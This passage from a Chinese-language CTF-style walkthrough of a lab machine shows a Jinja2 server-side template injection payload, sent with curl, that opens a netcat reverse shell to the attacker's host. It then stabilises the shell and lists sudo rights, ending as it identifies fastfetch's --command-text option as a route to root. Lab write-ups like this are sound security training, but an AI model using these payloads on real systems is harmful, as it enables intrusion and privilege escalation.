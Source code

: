 
Kali上再次监听：
```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
```
通过SSTI发送反弹shell payload：
```bash
$ curl -X POST -d "username=test&question=test&answer={{ self.__init__.__globals__.__builtins__.__import__('os').popen('busybox nc 192.168.205.206 8888 -e /bin/bash').read() }}" http://127.0.0.1:5000/submit
```
回到Kali的`nc`监听：
```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
connect to [192.168.205.206] from (UNKNOWN) [192.168.205.213] 42084
id
uid=1001(qaq) gid=1001(qaq) groups=1001(qaq)
```
成功拿到 `qaq` 用户的shell！

#### 3.2 qaq -> root

再次稳定shell：
```bash
script /dev/null -c bash
# Ctrl+Z
stty raw -echo; fg
# (press enter)
reset xterm  
export TERM=xterm  
export SHELL=/bin/bash  
stty rows 24 columns 80
```
现在是 `qaq` 用户了，看看有什么`sudo`权限或者SUID程序可以利用。
```
qaq@eeeeeasy:~$ sudo -l
Matching Defaults entries for qaq on eeeeeasy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User qaq may run the following commands on eeeeeasy:
    (ALL) NOPASSWD: /usr/bin/fastfetch
```

这里我们发现 `/usr/bin/fastfetch` 这个程序有点特殊。我们可以用 `sudo` 执行它
先看看 `fastfetch -h` 有没有什么可以利用的参数：

```bash
qaq@eeeeeasy:~$ sudo /usr/bin/fastfetch -h
Fastfetch is a neofetch-like tool for fetching system information and displaying them in a pretty way

Usage: fastfetch <?options>
# ... (大量帮助信息，我们主要关注能执行命令的) ...
Module specific options:
      --command-shell <str>                  Set the shell program to execute the command text
      --command-key <str>                    Set the module key to display
      --command-text <str>                   Set the command text to be executed # <--- 这个看起来很危险！
# ... (更多帮助信息) ...
```
从帮助信息中，`--command-text <str>` 这个选项允许我们执行任意命令，配合 `--structure "command"` 就可以用 `fastfetch` 来执行我们想执行的命令了，并且是以`sudo`（即root）权限执行！
